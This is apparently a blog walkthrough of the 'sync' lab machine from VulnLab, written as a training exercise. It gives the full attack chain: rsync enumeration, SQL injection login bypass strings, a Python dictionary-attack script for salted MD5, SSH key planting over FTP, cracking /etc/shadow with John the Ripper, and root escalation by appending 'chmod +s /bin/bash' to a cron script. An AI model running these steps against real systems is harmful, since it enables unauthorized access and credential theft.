 ```yaml
---
layout: post
title:  "VulnLab | sync"
description: "walkthrough of sync machine, an easy rated box from VulnLab"
author: ""
date: "2024-11-15"
pin: true
image:
  path: ../assets/img/ctf/vulnlab/sync/sync1.png
  alt: "sync.vl"
category: "VulnLab"
tags: ["Linux", "rsync", "linux password cracking" ,"scheduled task"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[baby](https://www.vulnlab.com/machines)

------------------------------------------------------------------------------------------


## Enumeration

### All Open Ports
```bash
rustscan -a 10.10.109.129
```
![rustscan](./assets/img/ctf/vulnlab/sync/sync2.png)

### Services Scanning
```bash
nmap -p21,22,80,873 -sC -sV -v -oN sync.full 10.10.109.129
```
### Hostname
```bash
echo '10.10.109.129  sync.vl'  >> /etc/hosts
```

## Foothold

### Port 80
![web](./assets/img/ctf/vulnlab/sync/sync3.png)
![ffuf](./assets/img/ctf/vulnlab/sync/sync4.png)

### Port 873
```bash
rsync sync.vl::
rsync -av --list-only  rsync://sync.vl/httpd 
```
![rsync](./assets/img/ctf/vulnlab/sync/sync5.png)

```bash
rsync -av rsync://sync.vl/httpd ./rsyn_shared
```
![rsync](./assets/img/ctf/vulnlab/sync/sync6.png)

```sql
sqlite3 site.db
select * from users;
```
![rsync](./assets/img/ctf/vulnlab/sync/sync7.png)
```php
$username = $_POST['username'];
$password = $_POST['password'];

$hash = md5("$secure|$username|$password");
$db = new SQLite3('../db/site.db');
$result = $db->query("SELECT * FROM users WHERE username = '$username' AND password= '$hash'");

$row = $result->fetchArray(SQLITE3_ASSOC);
```

```text
admin' or 1=1-- -
triss' or 1=1-- -
```
![rsync](./assets/img/ctf/vulnlab/sync/sync8.png)
```python
import hashlib

secure = "6c4972f3717a5e881e282************"
username = "triss"
hash_to_crack = "a0de4d7f81676c3ea**********"
known_string = f"{secure}|{username}|"

def generate_md5_hash(password):
    full_string = known_string + password
    return hashlib.md5(full_string.encode()).hexdigest()
    
def dictionary_attack(wordlist):
    with open(wordlist, 'r') as file:
        for line in file:
            password = line.strip()
            if generate_md5_hash(password) == hash_to_crack:
                print(f"Password found: {password}")
                return password
    print("Password not found in wordlist.")
    return None
```
![triss password](./assets/img/ctf/vulnlab/sync/sync9.png)

### Port 21
```bash
ftp sync.vl
```
![ftp](./assets/img/ctf/vulnlab/sync/sync10.png)

```sh
ssh-keygen
cp id_rda.pub authorized_keys
mkdir .ssh
cd .ssh
put authorized_keys
```
![authorized_keys](./assets/img/ctf/vulnlab/sync/sync11.png)

### Port 22
```bash
chmod 600 id_rsa
ssh -i id_rsa triss@sync.vl
```
![ssh](./assets/img/ctf/vulnlab/sync/sync12.png)


## Privilege Escalation
```text
> linpeas output

/usr/local/bin/backup.sh 
/backup

> pspy64 output
```
![ssh](./assets/img/ctf/vulnlab/sync/sync13.png)

```bash
> /usr/local/bin/backup.sh content

#!/bin/bash
mkdir -p /tmp/backup
cp -r /opt/httpd /tmp/backup
cp /etc/passwd /tmp/backup
cp /etc/shadow /tmp/backup
cp /etc/rsyncd.conf /tmp/backup
zip -r /backup/$(date +%s).zip /tmp/backup
rm -rf /tmp/backup
```

```bash
unzip -d data data.zip
cp data/tmp/backup/passwd passwd.txt
cp data/tmp/backup/shadow shadow.txt
unshadow passwd.txt shadow.txt  > unshadowed.txt
```
![data.zip](./assets/img/ctf/vulnlab/sync/sync14.png)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
![jtr](./assets/img/ctf/vulnlab/sync/sync15.png)

```bash
su sa
id
```
![sa](./assets/img/ctf/vulnlab/sync/sync16.png)

```bash
ls -la /usr/local/bin/backup.sh 
echo 'chmod +s /bin/bash'  >> /usr/local/bin/backup.sh 
```
![backup.sh](./assets/img/ctf/vulnlab/sync/sync17.png)
```sh
ls -la /bin/bash
/bin/bash -p
```
![root](./assets/img/ctf/vulnlab/sync/sync17.png)


## Kill Chain Summary
1. rsync anonymous access.
2. reading the registration code understand the hashing mechanism and crack triss password.
3. using triss creds access the ftp server.
4. tris have write permission abuse this and add a public key to `.ssh/authorized_keys`.
5. connect to the box trought ssh as triss.
6. crack linux password (sa and jennifer) found in `/backup/date.zip`.
7. abuse the root task running `/usr/local/bin/backup.sh` since we as `sa` has write permission on `/usr/local/bin/backup.sh`.
8. NB: Someone could using ``hydra` brute force `sa` password since it's very weak and then skip step 1 to 5.


## References
[rsync](https://hackviser.com/tactics/pentesting/services/rsync)<br>
[jtr shadow cracking](https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/)
